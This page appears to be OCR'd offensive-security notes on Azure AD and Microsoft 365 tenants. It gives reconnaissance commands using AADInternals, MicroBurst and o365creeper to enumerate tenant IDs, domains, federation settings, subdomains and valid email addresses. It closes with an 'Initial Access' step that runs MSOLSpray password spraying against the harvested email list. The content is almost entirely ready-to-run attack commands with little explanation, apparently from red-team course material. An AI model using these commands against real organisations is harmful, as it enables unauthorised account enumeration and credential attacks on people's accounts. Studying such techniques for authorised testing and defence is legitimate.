 **Name and Federation**

`https://login.microsoftonline.com/getuserrealm.srf?login=[USERNAME@DOMAIN]&xml=1`

With **AADInternals**

```powershell
Get-AADIntLoginInformation -UserName root@dcorp.onmicrosoft.com 
```

**Tenant ID**

`https://login.microsoftonline.com/[DOMAIN]/.well-known/openid-configuration`

```powershell
Get-AADIntTenantID -Domain corp.onmicrosoft.com 
```

**Tenant domains**

```powershell
Get-AADIntTenantDomains -Domain corp.onmicrosoft.com 
Get-AADIntTenantDomains -Domain deffin.onmicrosoft.com
```

**Validate Email ID**

`https://login.microsoftonline.com/common/GetCredentialType`

**All information**

```powershell
Invoke-AADIntReconAsOutsider -DomainName defcorphq.onmicrosoft.com
```

#### Email IDs

With `o365creeper` to check if an email ID belongs to a tenant.

```powershell
C:\Python27\python.exe C:\AzAD\Tools\o365creeper\o365creeper.py -f C:\AzAD\Tools\emails.txt -o C:\AzAD\Tools\validemails.txt
```

#### Azure Services

Azure services are available at specific domains and subdomains. To enumerate all the subdomains from a 'base':

```powershell
Import-Module C:\AzAD\Tools\MicroBurst\MicroBurst.psm1 -Verbose
Invoke-EnumerateAzureSubDomains -Base corp -Verbose
```

### Initial Access

* Password spraying technique (really noisy)

```powershell
C:\AzAD\Tools\MSOLSpray\MSOLSPray.ps1 
Invoke-MSOLSpray -UserList C:\AzAD\Tools\validemails.txt -Password <password> -Verbose
```
